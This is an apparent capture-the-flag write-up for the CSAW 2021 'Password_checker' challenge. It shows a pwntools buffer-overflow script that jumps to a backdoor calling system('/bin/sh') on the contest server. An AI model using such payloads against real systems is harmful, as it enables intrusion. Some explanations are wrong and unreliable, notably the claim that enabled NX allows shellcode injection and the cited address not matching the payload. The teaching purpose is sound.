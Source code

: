 +++
title = "CSAW: Password_checker"
date = "2021-09-10"
aliases = ["Password_checker"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# Password_Checker:

## Intro:

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

Netcat:nc pwn.chal.csaw.io 5000

File: password_checker

## Go through

The first hint you get is that this is for someone who hasn't solved a binary exploit before therefore we know a good place too look is at the file which we recieved. You can therefore start by using a tool to check the file for information about it I used GDB

So, in terminal run:`gdb password_checker`

Here you get the info

```
adding symbols from password_checker...
I'm sorry, Dave, I can't do that.  Symbol format ´elf64-x86-64´ unknown.
```

So from this we learn that the file is of the elf64-x86-64 format. elf is Executable and Linkable Format 64 bit

Now that we now it is a executable we can try using the tool checksec, when we run checksec on the binary:

`checksec --file=password_checker`

Then we get the information that there is no canary found, nx is enabled, no PIE, no RPATH

So here we learn that nx is enabled the NX bit (no-execute) is a technology used in CPUs to segregate areas of memory for use by either storage of processor instructions (code) or for storage of data.

This means we can try and do bufferoverflow meaning we will try to put more data into a fixed-lenght buffer than the buffer can handle and thereby be able to do code execution by shellcode injection.

So I used a reverse engineering tool called Cutter to decompile the binary file to get some information we are gonna use in the buffer overflow.

Here I find a backdoor which looks like this:

```c
void backdoor(void)
{
    system("/bin/sh");
    return;
}
```

We can then use cutter to get the instruction address which in this case is 0x0040117d, we can then use pwn tools to process our binary file and send our specific line which we specify to overflow. Then we can specify the address for the information which we want usinger pointers in order to be able to connect via netcat.

once we have perfected the bufferoverflow we can try and edit our script to execute the remote on the netcat server which is listening for the password.

Then if everything was done correctly you can type whoami and then you will be able to see nobody which tells you who you are you can then try typing ls to see what are in the directory, and there you will find the flag.txt, you can then cat the txt file to get the flag.

### Python Script used:

```python
#pip install pwn
from pwn import *
p = process("./password_checker")
#doesn't need to run remote before we have perfected the bufferoverflow
p = remote('pwn.chal.csaw.io',5000)
p.sendline (b'\x00'*72+b'\x84\x11\x40\x00\x00\x00\x00\x00\x72\x11\x40\x00\x00\x00\x00\x00')
p.interactive()
```

# Tools used

#### GDB

Gnu project debugger https://www.gnu.org/software/gdb/

#### Checksec

checksec is a bash script to check the properties of executables (like PIE, RELRO, PaX, Canaries, ASLR, Fortify Source) https://github.com/slimm609/checksec.sh

#### cutter

http://cutter.re is a free open source RE platform, used to convert assembly into something that looks like C

pwn is a gdb wrapper https://github.com/Gallopsled/pwntools
